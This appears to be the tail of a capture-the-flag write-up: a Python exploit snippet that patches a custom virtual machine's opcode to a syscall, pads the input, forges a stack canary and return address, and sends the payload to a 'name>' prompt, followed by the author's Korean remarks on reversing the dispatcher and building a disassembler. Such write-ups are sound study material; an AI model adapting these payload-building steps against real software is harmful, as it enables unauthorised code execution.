 ```python
payload += patch(4, 1, [0, 0x02]) # mov r0, 2
payload += patch(8, 0, [0, 0]) # op 8 <= syscall 2

payload += '\x00'*(0xf5fd7-0xf5f9e-len(payload)) # dummy
payload += convert_i(0x12345) # 0x12345 canary
payload += 'aaa'  # bp
payload += convert_i(0xf5fa3)  # 0xf5fa3


r.sendlineafter('name>',payload)

r.interactive()
```



# Comment

- 저 놈의 `dispatch()`를 제대로 분석해야 입력을 반대로 제대로 줄 수 있다. (좀 헷갈림)
- **disassembler**를 만드는게 생각외로 재미있었당
- 시간은 졸라게 오래 걸렸지만 생각보다 그렇게 어렵지는 않았던거 같다
- 첨에 쉘코드가 너무 길어서 안됬었다ㅏ

